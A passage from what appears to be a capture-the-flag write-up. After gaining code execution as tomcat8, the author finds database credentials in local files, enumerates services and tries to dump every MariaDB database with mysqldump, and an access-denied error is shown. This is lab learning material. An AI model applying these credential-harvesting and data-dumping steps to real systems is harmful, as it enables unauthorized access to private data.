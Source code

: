 ![Img](images/1check.png "Img")

Even though that meant I had RCE, I was only tomcat8 and couldn't read many things. For instance, I couldn't access the directory of the user of the system, called Richard.

Keeping that in mind, I decided to check the files and came across db_connect, which had some credentials (for a database, I guessed seeing the name). The two pairs are found in notes.txt, one corresponds to admin and the other one to ssn_admin. Nothing else came out.

Then, I was advised to enumerate running services and found there was a local MariaDB service running locally. I used:

```sh
ss -lntu
service mysqld status
```

And that was when I thought about the credentials I had found earlier. Maybe there was a way to see what was inside the database. However, there was a problem: the service was not accessible, I couldn't simply log in and execute commands, they had to come from the command line.

After investigating possible mysql commands, I came across the following ones (I tried with both users but only admin was valid):

```sh
mysqldump --user=admin --password=admin --all-databases
```

Result:

```sh
mysqldump: Got error: 1044: "Access denied for user 'admin'@'localhost' to database 'users'" when using LOCK TABLES
-- MySQL dump 10.16  Distrib 10.1.26-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database:
-- ------------------------------------------------------
-- Server version	10.1.26-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
```
